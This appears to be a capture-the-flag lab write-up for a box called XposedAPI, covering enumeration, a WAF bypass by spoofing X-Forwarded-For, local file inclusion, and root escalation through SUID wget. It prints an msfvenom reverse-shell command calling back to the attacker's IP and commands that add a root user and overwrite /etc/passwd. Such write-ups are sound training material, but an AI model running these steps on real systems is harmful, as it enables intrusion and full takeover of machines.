

# XposedAPI

## Information Gathering

### Service Enumeration

`nmapAutomator.sh -H 192.168.134.134 -t full`

`nmapAutomator.sh -H 192.168.134.134 -t vulns`


### Port 13337


Seems like a custom-built API.

`/update` API seems interesting.

Generate ELF: `msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.49.134 LPORT=4242 -f elf > reverse.elf`

It appears we need to either find a valid username, or perform SQL injection.


Another interesting endpoint is `/logs`. The WAF denies us access to this host. Likely, the WAF is trying to restrict access to localhost.


### X-Forwarded-For Header

"The X-Forwarded-For \(XFF\) header is a de-facto standard header for identifying the originating IP address of a client connecting to a web server through an HTTP proxy or a load balancer. When traffic is intercepted between clients and servers, server access logs contain the IP address of the proxy or load balancer only. To see the original IP address of the client, the X-Forwarded-For request header is used."

## Exploit

It appears that the WAF is performing a check on the X-Forwarded-For header. This can be easily manipulated on the client side.


Now, we are told to use `file=/path/to/log/file`. This appears to be a LFI vulnerability.


Here, we get the username `clumsyadmin` \(the only 'human' username\). Now we can make the server download and execute the malicious ELF file we generated earlier using msfvenom.


Restart the app, and we have a reverse shell.


## Privilege Escalation

We can use LinPEAS to enumerate.


Very quickly, we can see that the SUID bit is set for `wget`.

Reference: [https://gtfobins.github.io/gtfobins/wget/](https://gtfobins.github.io/gtfobins/wget/)

We can abuse the SUID privileges to write arbitrary files.

After copying the `passwd` file to our attacking machine, add our own root user:

```bash
echo "root2:bWBoOyE1sFaiQ:0:0:root:/root:/bin/bash" >> passwd
```

Note that this hash corresponds to our custom password, `mypass`.

```bash
$ openssl passwd mypass                                                    
bWBoOyE1sFaiQ
```

Then we can overwrite the existing `passwd` file: `wget http://192.168.49.134/passwd -O /etc/passwd`


Finally, we can SSH as root2.




